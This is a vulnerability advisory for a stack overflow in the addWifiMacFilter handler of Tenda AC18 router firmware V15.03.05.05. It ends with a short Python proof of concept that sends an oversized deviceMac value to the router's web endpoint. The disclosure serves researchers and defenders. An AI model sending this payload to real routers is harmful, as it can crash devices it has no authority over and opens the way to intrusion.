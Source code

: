 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v11` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceMac` can trigger this security vulnerability.

![image-20240306165547354](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165547354.png)

![image-20240306165556643](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165556643.png)

![image-20240306165606917](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165606917.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306165755915](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306165755915.png)
